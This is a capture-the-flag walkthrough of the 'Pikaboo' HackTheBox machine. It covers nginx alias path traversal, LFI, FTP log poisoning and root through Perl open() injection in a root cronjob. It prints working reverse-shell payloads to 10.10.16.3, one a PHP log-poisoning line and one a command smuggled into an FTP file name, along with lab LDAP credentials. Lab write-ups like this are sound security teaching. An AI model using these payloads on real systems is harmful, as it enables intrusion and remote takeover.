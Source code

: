 ## Enumeration
-   21/tcp open ftp vsftpd 3.0.3
-   22/tcp open ssh OpenSSH 7.9p1p1 Debian 10+deb10u2 (protocol 2.0)
-   80/tcp open http nginx 1.14.2

## Web

We turn our attention to the "admin" tab on the webpage which is a page that requires basic authentication for logging in. However we don't know any and this is a hard box so it's unlikely that either guessing or brute-forcing will work. Clicking cancel on the basic authentication box gives us something interesting. 

We can see that it is saying it is using an Apache server on port 81 which makes us think why choose a non-standard port for apache? and nmap said there's nginx not apache so there must be some sort of traffic forwarding and reverse proxy running on the back-end. 

After checking versions for exploitation, we saw that the machine is running the latest versions of both Apache and Nginx, but we found [this article](https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/) that specified that there could be path traversal due to misconfigured alias in Nginx. So we thought to give it a try as it is pretty easy just go to the endpoint which asks for the credentials and then use ../ and then go to the desired directory.

```bash
ffuf -u http://10.10.10.249/admin../FUZZ -w big.txt -t 200
```

We have found few directories but most of them don’t look interesting except "server-status" which is mostly forbidden is now giving a 200 status code so let’s check that out.

We get a response on the web and we find some a couple of interesting lines 
```bash
127.0.0.1 localhost:81 GET /admin_staging HTTP/1.1
127.0.0.1 localhost:81 GET /pokatdex/etc/passwd HTTP/1.0
```

Now add the machine ip to /etc/hosts and navigate to `pikaboo.htb/admin../admin_staging/`

Now we notice that the URL seems to directly calling the PHP page of the respective web page so there could be potential LFI there. Using fuzzing we find some FTP logs that we can read through LFI. All of that gave us a user name `pwnmeow`

## Exploitation
Now that the road has cleared we can think of one thing: log poisoning.

For this to work we'll pass the payload as the "name" parameter on FTP (make sure to input a non-empty pass for it to work). We can trigger the shell by viewing the log `?page=/var/log/vsftpd.log`

```bash
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.3/4444 0>&1'"); ?>
```


## Filesystem enumeration
After some manual enumeration we find a cronjob scheduled by root
`* * * * * root /usr/local/bin/csvupdate_cron`

These are the contents:

```
#!/bin/bash

for d in /srv/ftp/*
do
  cd $d
  /usr/local/bin/csvupdate $(basename $d) *csv
  /usr/bin/rm -rf *
done
```

After looking and analyzing the `/usr/local/bin/csvupdate` file - which is a perl script, and we turn our attention to the potentially exploitable open() function. The [exploit](https://stackoverflow.com/questions/26614348/perl-open-injection-prevention) basically is that if the filename starts with "|" then the rest of file name will be executed as command. However before we can create our payload we need login to ftp.

Let's enumerate the internal services
`ss -tunlp`

We find an interesting open listening port: `127.0.0.1:389` for LDAP services. 

Let's see what we can find with the given information `grep -iR "ldap" 2>/dev/null`

The search points to the ldap setting file at `opt/pokeapi/config/settings.py` which contains some hard-coded credentials. 

```bash
DATABASES = {
    "ldap": {
        "ENGINE": "ldapdb.backends.ldap",
        "NAME": "ldap:///",
        "USER": "cn=binduser,ou=users,dc=pikaboo,dc=htb",
        "PASSWORD": "J~42%W?PFHl]g",
    },
```

We have the LDAP creds and now let's further enumerate with the new acquired creds.

```bash
ldapsearch -D"cn=binduser,ou=users,dc=pikaboo,dc=htb" -w 'J~42%W?PFHl]g' -b'dc=pikaboo,dc=htb' -LLL -h 127.0.0.1 -p 389 -s sub "(objectClass=*)"
```

```bash
dn: uid=pwnmeow,ou=users,dc=ftp,dc=pikaboo,dc=htb
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
uid: pwnmeow
cn: Pwn
sn: Meow
loginShell: /bin/bash
uidNumber: 10000
gidNumber: 10000
homeDirectory: /home/pwnmeow
userPassword:: X0cwdFQ0X0M0dGNIXyczbV80bEwhXw==
```
With this we found base64 encoded ftp creds for the user 'pwnmeow'. Let's connect, move to a directory and put the malicious payload:

```bash
ftp> put hacker "|python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("\"10.10.16.3\",5555));[os.dup2(s.fileno(),f)for\ f\ in(0,1,2)];pty.spawn(""\"sh\")';.csv"
```

Wait for the cronjob and we're root!